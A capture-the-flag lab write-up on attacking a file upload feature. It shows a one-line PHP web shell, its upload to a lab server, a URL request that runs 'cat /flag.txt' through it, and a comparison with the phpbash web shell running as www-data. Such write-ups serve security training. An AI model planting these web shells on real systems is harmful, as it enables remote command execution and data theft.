




## Exercises

### Question 1 — Try to exploit the upload feature to upload a web shell and get the content of /flag.txt

Having already built and uploaded a working PHP web shell in the previous exercise, reused the same payload here:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo '<?php system($_GET["cmd"]);?>' > shell.php 

┌──(—REDACTED—㉿kali)-[~]
└─$ cat shell.php                                   
<?php system($_GET["cmd"]);?>
```

Uploaded `shell.php` through the form.



Visited the uploaded shell first with no `cmd` parameter set, which returned a blank page, as expected with nothing passed to `system()`.



Passed `cat /flag.txt` through the `cmd` parameter:

```txt
http://154.57.164.76:41597/uploads/shell.php?cmd=cat+/flag.txt
```


**Answer:** `—REDACTED—`

With the flag captured, tried **phpbash** as well, to compare it against the custom shell above. Uploaded `phpbash.php` the same way.



Navigating to `phpbash.php` loaded its terminal-style interface directly in the browser, confirming the shell's user as `www-data` and retrieving the flag again through it:

```txt
http://154.57.164.76:41597/uploads/phpbash.php
```



```shell
www-data@—REDACTED—:/var/www/html/uploads# whoami

www-data
www-data@—REDACTED—:/var/www/html/uploads# cat /flag.txt

—REDACTED—
```

Confirmed: both the hand-written `shell.php` and phpbash reach the same result, with phpbash giving a proper interactive terminal instead of one command per URL request.
